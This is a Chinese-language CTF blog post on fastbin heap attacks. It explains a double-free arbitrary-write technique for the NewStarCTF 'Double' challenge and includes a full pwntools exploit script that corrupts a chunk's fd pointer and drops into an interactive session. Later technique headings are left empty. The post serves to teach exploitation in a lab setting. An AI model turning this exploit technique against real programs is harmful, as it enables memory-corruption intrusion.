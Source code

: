 ```yaml
---
title: Fastbin Attack
tags: [ctf-pwn,exp]
date: 2023-10-24 10:58:00
categories: [ctf-pwn]
excerpt: fastbin的几种攻击方法
---
```


#### Fastbin

##### Double Free

以buuoj NewStarCTF 2023 week 4 Double为例

目的是向任意地址写入值

经典的网图

![](/img/Fastbin/1.jpg)

原理在于，三次free之后，第一次把chunk1 malloc出来之后，可以对content部分进行编辑，而content对于第三次malloc出来的chunk1是fd，这个fd在第四次malloc时，会从自己写的地址进行malloc，然后这个malloc出来的块的content又是可编辑的。这样就实现了任意地址写。

```python
from pwn import *

#p = process("./Double")
p = remote("node4.buuoj.cn", 25942)

#gdb.attach(p, "b *0x080486B5")

def add(idx, content):
  p.recvuntil(b">\n")
  p.sendline(b"1")
  p.recvuntil(b"Input idx\n")
  p.sendline(idx)
  p.recvuntil(b"Input content\n")
  p.sendline(content)
  

def free(idx):
  p.recvuntil(b">\n")
  p.sendline(b"2")
  p.recvuntil(b"Input idx\n")
  p.sendline(idx)

def check():  
  p.recvuntil(b">\n")
  p.sendline(b"3")
  
  
add(b'1', b"aaaa")
add(b'2', b"bbbb")
free(b'1')
free(b'2')
free(b'1')

add(b'1', p64(0x602070 - 16))

add(b'2', b'dddd')

add(b'3', b'eeee')

add(b'4', p64(1638))

check()

p.interactive()
```



##### House of Spirit



##### Alloc to Stack



##### Arbitary Alloc